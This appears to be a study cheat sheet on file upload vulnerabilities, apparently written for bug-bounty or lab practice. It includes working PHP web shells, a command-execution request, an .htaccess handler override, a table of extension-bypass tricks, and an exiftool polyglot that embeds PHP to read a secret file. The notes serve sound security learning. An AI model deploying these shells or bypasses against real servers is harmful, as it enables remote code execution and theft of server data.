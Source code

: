 # Resources
- Intigriti Hackademy videos on File Upload Vulnerabilities
# Payload lists
- [PayloadAllTheThings - Upload Insecure Files/Extension PHP/extensions.lstUpload Insecure Files/Extension PHP/extensions.lst](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
# What are they and their impact?
- When users can upload files to the server and they are not properly validated.
- Example of characteristics that should be validated:
    - Name
    - Type
    - Contents
    - Size
- Upload malicious files(XSS payload, etc)
- Re-write critical files in the web application
- These could be turned to RCE (Remote Code Execution) given the right circumstances
# How do they arise?
- Improper validation
- Parsing discrepancies
- Faulty blacklist implemented
- Trusting Client-side validation
## Uploading Code 
- Does the server allow the user to upload server-side scripts?
    - PHP
    - Java
    - Python
- Sample Web Shells
```php
<?php system($_GET['command']); ?>
```

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
- Sample Request
```http
GET /example/exploit.php?command=id HTTP/1.1
```
# Exploiting flawed validation of file uploads
- Sending text `Content-Type: application/x-www-form-url-encoded`
- Sending large amounts of data (E.g.: images) `Content-Type: multipart/form-data`
- These types of requests are divided into sections and they are similar to the request shown below
- The server might check that the Content-Type is the expected MIME type
- However, the header might be blindly trusted without checking if the data matches the MIME type 
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
```
- Craft a request that has the malicious data in it and the expected MIME type, see if it is uploaded
- Craft a request that has the malicious data in it and malicious MIME type, see if it is uploaded
# Path traversal in file upload
- Some servers prevent scripts from running unless they are running from certain specific directories
- Modify the "filename" and attempt path traversal (obfuscation, encoding, and other path traversal techniques might be needed)
- Path traversal could also be used to upload files to unexpected locations and even re-write files
# Improper file type blacklisting
- Bypass using lesser known alternatives (.php5 instead of .php)
- Overriding server configuration files (Upload a configuration file `.htaccess` (Apache) | `web.config` (IIS server) mapping an arbitrary extension to an executable MIME type)
```
Addtype application/x-httpd-php .s33k
```
- Obfuscate the file extension: Example extension `.php`
| Scenario               | Example              |
|------------------------|----------------------|
|Case sensitive          | .pHp                 |
|Multiple extensions     | exploit.php.jpg      |
|Add trailing character  | .php <-- whitespace  |
|Add trailing character  | .php.<-- dot         |
|URL Encoding            | exploit%2Ephp        |
|URL Double Encoding     | exploit%252Ephp      |
|Semicolon               | exploit.php;.jpg     |
|URL Encoded Null byte   | exploit.php%00.jpg   |
|Non-recursive stripping | exploit.p.php.hp     |
# Polyglots
Use exiftool to create a polygot to try to bypass security controls
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" apple.png -o poly.php
```
